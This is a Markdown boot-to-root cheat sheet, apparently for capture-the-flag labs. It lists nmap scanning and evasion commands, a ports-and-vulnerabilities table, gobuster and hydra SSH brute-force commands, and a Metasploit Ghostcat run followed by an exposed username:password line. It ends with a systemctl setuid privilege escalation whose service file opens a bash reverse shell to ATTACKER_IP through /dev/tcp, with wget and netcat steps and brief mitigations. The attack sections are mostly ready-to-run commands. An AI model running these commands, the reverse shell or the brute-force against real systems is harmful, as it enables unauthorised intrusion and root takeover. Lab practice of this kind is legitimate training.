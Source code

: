 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>





























<details>
<summary>
  
  ### **Web Enumeration**

</summary>
```bash
gobuster dir -e -u http://10.10.181.27 -w /home/iftx/Desktop/Room/wordlist/common.txt -x .php,.txt,.js,.html

subfinder -d [Target Domain]     # Find subdomains

amass enum -d [Target Domain]    # Active enumeration
```

### **Service Enumeration**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>

## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


